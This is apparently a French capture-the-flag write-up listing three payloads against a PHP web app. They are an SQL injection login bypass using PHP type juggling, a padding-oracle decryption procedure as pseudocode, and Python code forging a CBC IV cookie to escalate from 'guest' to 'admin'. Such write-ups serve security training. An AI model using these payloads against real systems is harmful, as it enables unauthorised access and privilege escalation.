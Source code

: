 ## Payloads Utilisés

### Payload 1 : Contournement d'Authentification (SQLi + Type Juggling)

C'est le payload principal pour obtenir l'accès initial et générer les cookies de session.

* **Type :** Injection SQL + PHP Type Juggling
* **Payload (Champs du formulaire) :**
    * `username`: `' UNION SELECT 'guest', 'a' -- `
    * `password`: `(vide)`
* **Objectif :**
    1.  L'injection SQL force la requête `SELECT` à retourner une ligne, donc `$row` devient `true`.
    2.  La valeur `'a'` pour `encrypted_pass` est invalide, `openssl_decrypt` retourne `false`.
    3.  Le mot de passe vide fait que `login()` évalue `false == ""` à `true`.
    4.  La condition `if ($row && login(...))` est `true && true`.
    5.  L'application appelle `get_identity()` et nous donne les cookies `ID` et `token` pour "guest".


### Payload 2 : Attaque par Padding Oracle (Méthodologie de déchiffrement)

Il ne s'agit pas d'un payload unique, mais d'un processus pour déchiffrer le cookie `ID` (valant `pad(b"guest", 16)`).

* **Type :** Forgery d'IV (Byte-by-Byte Guessing)
* **Pseudo-Payload :**
    ```python
    # Pour chaque octet (byte_index) de 15 à 0:
    #   Pour chaque supposition (guess) de 0 à 255:
    #     1. Créer un forged_iv (cookie 'token')
    #     2. Y insérer la 'guess' à la position byte_index
    #     3. Ajuster les octets suivants pour créer un padding valide
    #     4. Envoyer (forged_iv, original_ciphertext) au serveur
    #     5. Si le serveur ne renvoie PAS "ERROR!":
    #          -> La supposition est correcte.
    #          -> Calculer l'octet du Plaintext.
    #          -> Passer à l'octet suivant.
    ```
* **Objectif :** Découvrir le `Plaintext` original (`"guest"`) caché dans le cookie `ID`.

### Payload 3 : CBC Bit-Flipping (Escalade de Privilèges)

Ce payload final est un `token` (IV) entièrement forgé, conçu pour changer le `Plaintext` déchiffré de `"guest"` à `"admin"`.

* **Type :** Forgery d'IV (Bit-Flipping)
* **Payload (Logique de calcul) :**
    ```python
    # 1. Obtenir l'IV original (cookie 'token' de 'guest')
    iv_original = base64.b64decode(token_b64)

    # 2. Définir le Plaintext original (découvert via Payload 2)
    p_guest = pad(b"guest", 16)

    # 3. Définir le Plaintext désiré
    p_admin = pad(b"admin", 16)

    # 4. Calculer l'IV forgé (le nouveau cookie 'token')
    iv_forged = bytes(a ^ b ^ c for a,b,c in zip(p_guest, iv_original, p_admin))
    iv_forged_b64 = base64.b64encode(iv_forged).decode()
    ```
* **Objectif :** Envoyer le couple `(iv_forged, original_ciphertext)` au serveur. Le serveur calculera `Decrypt(original_ciphertext) ⊕ iv_forged`, ce qui résultera en `pad(b"admin", 16)`, accordant une session administrateur.